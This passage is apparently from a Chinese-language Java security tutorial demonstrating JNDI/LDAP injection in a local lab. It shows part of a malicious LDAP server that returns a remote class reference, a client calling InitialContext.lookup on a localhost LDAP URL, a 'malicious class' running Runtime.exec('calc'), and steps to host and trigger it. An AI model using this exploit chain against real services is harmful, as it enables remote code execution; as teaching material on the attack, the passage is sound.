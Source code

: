 ```java
                cbstring = cbstring.substring(0, refPos);
            }
            e.addAttribute("javaCodeBase", cbstring);
            e.addAttribute("objectClass", "javaNamingReference");
            e.addAttribute("javaFactory", this.codebase.getRef());
            result.sendSearchEntry(e);
            result.setResult(new LDAPResult(0, ResultCode.SUCCESS));
        }

    }
}
```

`client`代码

```java
package org.example;

import javax.naming.InitialContext;
import javax.naming.NamingException;


public class LDAPClient {
    public static void main(String[] args) throws NamingException{
        String url = "ldap://127.0.0.1:1234/test";
        InitialContext initialContext = new InitialContext();
        initialContext.lookup(url);
    }

}
```

恶意类

```java
public class Calculator {
    public Calculator() throws Exception {
        Runtime.getRuntime().exec("calc");
    }
}
```

将恶意类编译为class文件，并且通过python起web服务，然后运行ldap服务器，在运行客户端访问
